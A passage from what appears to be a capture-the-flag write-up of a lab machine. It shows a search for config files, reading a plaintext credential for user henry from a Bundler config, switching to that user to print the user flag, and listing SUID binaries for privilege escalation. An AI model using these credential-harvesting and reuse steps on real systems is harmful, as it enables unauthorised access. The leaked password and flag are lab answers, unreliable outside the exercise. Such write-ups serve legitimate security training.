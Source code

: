 
```bash

ruby@precious:/var/www/pdfapp$ find / -name config 2>/dev/null
/var/www/pdfapp/config
/home/henry/.bundle/config
/home/ruby/.bundle/config

```

> found a config file in the Ruby user's home directory:

```bash

ruby@precious:/var/www/pdfapp$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

```
```bash

credentials - henry : Q3c1AqGHtoI0aXAYFH

```

> get credentials for henry user in clear text.

> Connect to henry other ssh and get first flag:

```bash

ruby@precious:/var/www/pdfapp$ su henry
Password:
henry@precious:/var/www/pdfapp$ cat ~/user.txt
2d00d65aa280506368935ceec00ede5b
henry@precious:/var/www/pdfapp$

```

```bash

user flag - 2d00d65aa280506368935ceec00ede5b

```
---

## Privilege Escalation

> i'm looking for SUID files:

```bash

henry@precious:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

```
